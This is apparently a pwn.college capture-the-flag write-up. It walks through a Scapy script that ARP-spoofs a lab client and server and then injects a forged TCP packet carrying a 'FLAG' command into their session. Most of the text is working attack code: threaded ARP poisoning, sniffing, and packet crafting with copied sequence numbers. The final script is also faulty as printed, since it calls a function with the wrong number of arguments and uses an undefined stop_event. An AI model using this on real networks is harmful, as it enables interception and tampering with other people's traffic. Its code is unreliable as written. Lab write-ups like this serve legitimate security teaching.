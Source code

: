 This level requires us to inject traffic into our man-in-the-middle attack. We can write a script that performs ARP hijacking on both the client and the server so that we can listen in on what both of them are saying. We can hijack the ARP of both the client and the server at the same time with multithreading.

```python
from scapy.all import *
import sys
import threading

def hijack_arp(victim_ip, victim_mac, target_ip, iface):
    packet = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=target_ip)
    while True:
        send(packet, iface=iface, verbose=False)

# configs
client_ip = "10.0.0.4"
server_ip = "10.0.0.3"
iface = "eth0"

# get MAC addresses
client_mac = getmacbyip(client_ip)
server_mac = getmacbyip(server_ip)

try:
    print("Hijacking ARP")
    client_thread = threading.Thread(target=hijack_arp, args=(client_ip, client_mac, server_ip, iface)) # ARP hijack victim
    server_thread = threading.Thread(target=hijack_arp, args=(server_ip, server_mac, client_ip, iface)) # ARP hijack target

    client_thread.start()
    server_thread.start()
except KeyboardInterrupt:
    stop_event.set()
    client_thread.join()
    server_thread.join()
    sys.exit(0)
```

This allows us to trick both the client and the server into thinking our machine is the thing that they are supposed to communicate to. This allows us to tap into their communication. When we tap into the traffic between `10.0.0.4` (client) and `10.0.0.3` (server), we get this TCP stream between the two.

```
SECRET:              # server
7b232d41f3a50b8706dd # client
COMMANDS:            # server
ECHO                 # server
FLAG                 # server
COMMAND:             # server
ECHO                 # client
Hello, World!        # client
Hello, World!        # server
```

The `FLAG` command in the packet will make the server send the flag. Right now, the client doesn't send any `FLAG` command, the server does. However, the client doesn't have the flag so nothing really happen. What we need to do is to inject a `FLAG` command into the client-to-server stream right after the server's `COMMAND:` packet. The `COMMAND:` packet is actually sent with the `COMMANDS\nECHO\nFLAGS\n` packet, making 1 packet with `COMMANDS\nECHO\nFLAGS\nCOMMAND:\n`.

The way man-in-the-middle works is that when we hijack the ARP, the client will still communicate with the server and vice versa, we are just able to tap into that communication and listen on what's going on. If we want to inject extra traffic into a specific point in the communication, we need to find which point to inject into and what is the part that comes before that point. When we hit the part that comes before the injection point, we construct a packet containing our payload and send it to the server. This ensures that our payload will make it to the server before the client's packet, meaning the server will process our payload first. While testing this, I found that we need to inject our payload before the client's packet or the server will just ignore our payload.

Now we can sniff the traffic and detect any packet that contains the word `ECHO` and `COMMANDS` in it. We sniff the packet using the `sniff` function with a filter for TCP communication on port `31337`. If we do find that packet, we'll make a new packet containing our payload `FLAG\n`. This packet will get its information from the detected packet, more importantly, we get the `ack` number and `seq` number from the detected packet for our payload packet. After crafting the payload packet, we send it and wait for a response from the server. I've also coded a part that automatically detects the flag packet.

```python
def sniff_and_forward(iface):
    ack_num = 0

    def process_packet(packet):
        nonlocal ack_num
        if packet.haslayer(TCP):
            tcp_payload = bytes(packet[TCP].payload)

            print(f"PACKET: {packet.summary}")
            print(hexdump(packet))

            if b"pwn.college" in tcp_payload:
                print("Found flag packet:")
                print(hexdump(packet))
                stop_event.set()
                sys.exit(0)
            elif b"ECHO" in tcp_payload and b"COMMANDS" in tcp_payload:
                print("Found 'ECHO' and 'COMMANDS' in packet")
                custom_payload = b"FLAG\n"
                ack_num = int(packet[TCP].seq) + 29
                new_packet = (Ether(src=packet[Ether].dst, dst=packet[Ether].src) /
                              IP(version=4, flags="DF", src=packet[IP].dst, dst=packet[IP].src, ttl=64) /
                              TCP(sport=packet[TCP].dport, dport=packet[TCP].sport,
                                  seq=packet[TCP].ack, ack=ack_num,
                                  flags="PA") /
                                  custom_payload)

                print(f"Injection packet: {new_packet.summary}")
                print(hexdump(new_packet))

                sendp(new_packet, iface=iface, verbose=False)

    sniff(filter="tcp port 31337", prn=process_packet, store=False)
```

Here's the full code:

```python
from scapy.all import *
import sys
import threading

def hijack_arp(victim_ip, victim_mac, target_ip, iface):
    packet = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=target_ip)
    while True:
        send(packet, iface=iface, verbose=False)

def sniff_and_forward(filter_ip1, filter_ip2, iface):
    ack_num = 0

    def process_packet(packet):
        nonlocal ack_num
        if packet.haslayer(TCP):
            tcp_payload = bytes(packet[TCP].payload)

            print(f"PACKET: {packet.summary}")
            print(hexdump(packet))

            if b"pwn.college" in tcp_payload:
                print("Found flag packet:")
                print(hexdump(packet))
                stop_event.set()
                sys.exit(0)
            elif b"ECHO" in tcp_payload and b"COMMANDS" in tcp_payload:
                print("Found 'ECHO' and 'COMMANDS' in packet")
                custom_payload = b"FLAG\n"
                ack_num = int(packet[TCP].seq) + 29
                new_packet = (Ether(src=packet[Ether].dst, dst=packet[Ether].src) /
                              IP(version=4, flags="DF", src=packet[IP].dst, dst=packet[IP].src, ttl=64) /
                              TCP(sport=packet[TCP].dport, dport=packet[TCP].sport,
                                  seq=packet[TCP].ack, ack=ack_num,
                                  flags="PA") /
                                  custom_payload)

                print(f"Injection packet: {new_packet.summary}")
                print(hexdump(new_packet))

                sendp(new_packet, iface=iface, verbose=False)

    sniff(filter="tcp port 31337", prn=process_packet, store=False)

# configs
client_ip = "10.0.0.4"
server_ip = "10.0.0.3"
iface = "eth0"

# get MAC addresses
client_mac = getmacbyip(client_ip)
server_mac = getmacbyip(server_ip)

try:
    print("Hijacking ARP")
    client_thread = threading.Thread(target=hijack_arp, args=(client_ip, client_mac, server_ip, iface))
    server_thread = threading.Thread(target=hijack_arp, args=(server_ip, server_mac, client_ip, iface))

    client_thread.start()
    server_thread.start()

    print("Sniffing traffic on port 31337")
    sniff_and_forward(iface)
except KeyboardInterrupt:
    stop_event.set()
    client_thread.join()
    server_thread.join()
    sys.exit(0)
```
